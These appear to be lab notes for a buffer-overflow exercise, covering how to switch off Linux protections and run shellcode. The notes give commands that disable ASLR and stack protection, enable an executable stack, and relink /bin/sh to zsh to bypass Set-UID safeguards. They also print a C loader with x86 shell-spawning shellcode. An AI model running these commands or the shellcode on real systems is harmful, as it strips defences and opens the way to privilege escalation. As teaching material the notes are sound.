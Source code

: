 ## 2 Lab Task

### 2.1 Turning off countermeasures

`sudo sysctl -w kernel.randomize_va_space=0`

`gcc -fno-stack-protector example.c`

`gcc -z execstack -o test test.c`或`gcc -z noexecstack -o test test.c`

**For Set-UID program**

dash对Set-UID存在反制措施.

```shell
sudo rm /bin/sh
sudo ln -s /bin/zsh /bin/sh
```

### 2.2 Task 1: Running Shellcode

```c
#include <stdio.h>

int main()
{
	char *name[2];
	name[0] = "/bin/sh";
	name[1] = NULL;
	execve(name[0], name, NULL);
}

```

```c
/* call_shellcode.c */
/* You can get this program from the lab’s website */
/* A program that launches a shell using shellcode */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
const char code[] =
	"\x31\xc0" /* Line 1: xorl %eax,%eax */
	"\x50" /* Line 2: pushl %eax */
	"\x68""//sh" /* Line 3: pushl $0x68732f2f */
	"\x68""/bin" /* Line 4: pushl $0x6e69622f */
	"\x89\xe3" /* Line 5: movl %esp,%ebx */
	"\x50" /* Line 6: pushl %eax */
	"\x53" /* Line 7: pushl %ebx */
	"\x89\xe1" /* Line 8: movl %esp,%ecx */
	"\x99" /* Line 9: cdq */
	"\xb0\x0b" /* Line 10: movb $0x0b,%al */
	"\xcd\x80" /* Line 11: int $0x80 */
;

int main(int argc, char **argv)
{
	char buf[sizeof(code)];
	strcpy(buf, code);
	((void(*)( ))buf)( );
}

```
